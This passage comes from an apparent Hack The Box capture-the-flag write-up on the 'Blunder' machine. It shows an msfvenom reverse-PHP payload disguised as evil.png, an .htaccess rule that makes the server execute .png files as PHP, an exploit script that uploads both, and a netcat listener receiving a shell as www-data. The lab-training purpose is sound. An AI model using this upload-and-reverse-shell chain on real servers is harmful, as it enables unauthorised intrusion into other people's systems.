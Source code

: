 Now that we have the correct username and password, we can use the directory traversal exploit that we had downloaded earlier by making the correct changes to it.

![exploit_changes](./.images/exploit_changes.png)

On reading the script further, we can see that we need to create two more files which are `evil.png` and `.htaccess`. Lucking the commands to create those files are also given, so we can use those commands to create the required payloads.

```
┌─[✗]─[tester@parrot-virtual]─[~/Downloads/blunder]
└──╼ $msfvenom -p php/reverse_php LHOST=<your_ip> LPORT=4242 -f raw -b '"' > evil.png
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
Found 2 compatible encoders
Attempting to encode payload with 1 iterations of php/base64
php/base64 succeeded with size 4098 (iteration=0)
php/base64 chosen with final size 4098
Payload size: 4098 bytes
┌─[tester@parrot-virtual]─[~/Downloads/blunder]
└──╼ $echo -e "<?php $(cat evil.png)" > evil.png 
┌─[tester@parrot-virtual]─[~/Downloads/blunder]
└──╼ $echo "RewriteEngine off" > .htaccess
┌─[tester@parrot-virtual]─[~/Downloads/blunder]
└──╼ $echo "AddType application/x-httpd-php .png" >> .htaccess
```

Now, we can again try to run the script.

```
┌─[tester@parrot-virtual]─[~/Downloads/blunder]
└──╼ $python3 48701.py 
cookie: pnrnpfrisepfdgf7vqatk16rs6
csrf_token: a89c392f2d98cf3cebda6f026bd69f4a29fbde41
Uploading payload: evil.png
Uploading payload: .htaccess
```

In the script, it is written that the payload uploaded can be accessed at `url + /bl-content/tmp/temp/evil.png`. But before visiting that page, we need to start a listener on port 4242 (In the script it is port 53 but I changed it to 4242).

```
┌─[tester@parrot-virtual]─[~/Desktop/GitHub/Writeups/HackTheBox/Easy/blunder]
└──╼ $nc -nvlp 4242
listening on [any] 4242 ...
connect to [<your_ip>] from (UNKNOWN) [10.10.10.191] 57072
```

We can see that we are logged in as `www-data` using the command `whoami`. On exploring the directories, we find out that there are two users on the machine `hugo` and `shaun`. And `hugo`'s directory contains the `user.txt` file which is not accessible to us. Also, we can't see the output for `sudo -l`. The next thing we can look for is `/etc/crontab`.
